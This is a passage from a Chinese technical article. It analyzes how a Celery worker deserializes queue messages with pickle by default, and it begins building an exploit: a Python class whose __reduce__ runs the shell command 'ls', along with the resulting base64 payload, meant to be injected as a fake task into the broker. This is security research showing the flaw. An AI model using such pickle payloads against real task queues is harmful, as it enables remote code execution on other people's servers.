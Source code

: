 ```
        "delivery_mode": 2,
        "delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"
    `}`
`}`
```

在上面的消息数据中，properties 里包含了消息的路由信息和标识性的 UUID 值，而其中properties.body_encoding 的值则表示消息主体 body 的编码方式，这里默认为 base64 编码。在 Celery 分布式框架中，worker 端在获取到消息数据时会根据 properties.body_encoding 的值对消息主体 body 进行解码，即 base64.b64decode(body)，而消息数据中的 content-type 指明了消息主体（具体的任务数据）的序列化方式，由于采用了默认的配置所以这里使用的是 Python 内置序列化模块 pickle 对任务数据进行的序列化。<br>

将消息主体经 base64 解码和反序列化（即之前 unserializer.py 文件功能） 操作以后得到具体的任务数据：

[![](https://p2.ssl.qhimg.com/t01a28e29db11cdac91.png)](http://www.mottoin.com/89644.html/9-94)

格式化任务数据为：

```
`{`
    'args': (4, 9),  // 传递进 celery_simple.add 函数中的参数
    'timelimit': (None, None),  // celery Task 任务执行时间限制
    'expires': None,
    'taskset': None,
    'kwargs': `{``}`,
    'retries': 0,
    'callbacks': None,  // Task 任务回调
    'chord': None,
    'id': '1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe',  // 任务唯一 ID
    'eta': None,
    'errbacks': None,
    'task': 'celery_simple.add',  // 任务执行的具体方法
    'utc': True
`}`
```

任务数据标明了哪一个注册的 Task 将会被调用执行，其执行的参数是什么等等。这里任务数据已经不在重要，从上面这个分析过程中我们已经得到了这么一个结论：Celery 分布式节点 worker 在获取到消息数据后，默认配置下会使用 pickle 对消息主体进行反序列化。<br>

**3. 构造恶意消息数据**

那么如果在 Broker 中添加一个假任务，其消息主体包含了之前能够进行命令执行的序列化数据，那么在 worker 端对其进行反序列化的时候是不是就能够执行任意代码了呢？下面就来证明这个假设。

这里直接对消息主体 body 进行构造，根据第一节回顾的 Python 序列化利用方式，构造 Payload 使得在反序列化的时候能够执行命令并将结果进行返回（方便后面验证）：

```
import base64
import pickle
import commands
class LS(object):
    def __reduce__(self):
        return (commands.getstatusoutput, ('ls', ))
print(base64.b64encode(pickle.dumps(LS())))
```

运行程序生成具体 Payload 数据：

```
Y2NvbW1hbmRzCmdldHN0YXR1c291dHB1dApwMAooUydscycKcDEKdHAyClJwMwou
```
